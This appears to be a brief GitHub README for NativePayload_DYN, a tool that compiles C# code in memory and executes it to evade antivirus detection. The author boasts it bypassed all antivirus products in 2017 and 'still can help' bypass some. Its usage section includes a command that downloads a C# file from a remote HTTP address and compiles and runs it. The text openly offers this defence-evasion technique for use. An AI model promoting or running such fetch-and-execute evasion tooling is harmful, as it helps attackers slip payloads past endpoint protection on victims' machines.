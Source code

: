 # NativePayload_DYN

### Compiling Csharp in-memory and Execute to bypass AVs

#### Note: Code created by me in [Jun 2017] and Published in [Mar 2023] ;D but still can help you to bypass some AVs ;)

#### Note: ALL AVs in 2017 Bypassed by this simple code but for now i am not sure for this. 


usage:
      
    NativePayload_DYN.exe -f "class1.cs"
    NativePayload_DYN.exe -w "http://192.168.56.10/class1.cs"
